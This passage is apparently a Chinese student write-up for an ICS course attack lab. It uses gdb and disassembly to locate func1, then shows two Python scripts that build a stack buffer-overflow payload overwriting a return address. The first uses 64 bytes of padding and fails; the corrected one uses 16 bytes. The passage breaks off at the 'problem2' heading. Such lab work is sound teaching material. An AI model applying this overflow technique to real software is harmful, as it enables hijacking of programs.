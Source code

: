 ​	使用`gdb`调试，运行`x/s 0x402014`，得到输出`“Do you like ICS?"`。好吧，我就知道。

​	接下来，我看到func函数上面还有一个`func1`函数。

```asm
0000000000401216 <func1>:
  401216:	f3 0f 1e fa          	endbr64 
  40121a:	55                   	push   %rbp
  40121b:	48 89 e5             	mov    %rsp,%rbp
  40121e:	bf 04 20 40 00       	mov    $0x402004,%edi
  401223:	e8 98 fe ff ff       	call   4010c0 <_init+0xc0>
  401228:	bf 00 00 00 00       	mov    $0x0,%edi
  40122d:	e8 ee fe ff ff       	call   401120 <_init+0x120>
```

​	运行`x/s 0x402004`，得到输出`"Yes!I like ICS!"`,就是我们想要的答案。也就是说，我们的目标就是去调用`func1`函数。

​	于是，我满怀信心的编写了如下代码：（因为可以看到`func`函数中分配了`0x20`也就是32位的空间，再上面的四位就是原来正常的返回地址。而我们要做的就是利用缓冲区溢出将这个地址给改掉）

```python
padding = b"A" * 64
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

​	结果仍然输出了`“Do you like ICS?"`（抓狂）。问题就出在了对缓冲区大小的确定上。

​	我们栈溢出的目标，是利用我们想要的输出来覆盖原本的输出区域。而在原本的`fun`函数中，尽管它分配了`0x20`大小的空间，但实际上用于存储输出的只有`401246: 48 8d 45 f8     lea   -0x8(%rbp),%rax`也就是`0x8`这么大的空间，所以我们要填充的空间大小应该是`8+8=16字节`，因此代码应该为：

```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

​	输出后显示

![p1](p1.png)

​	成功解决！

## problem2

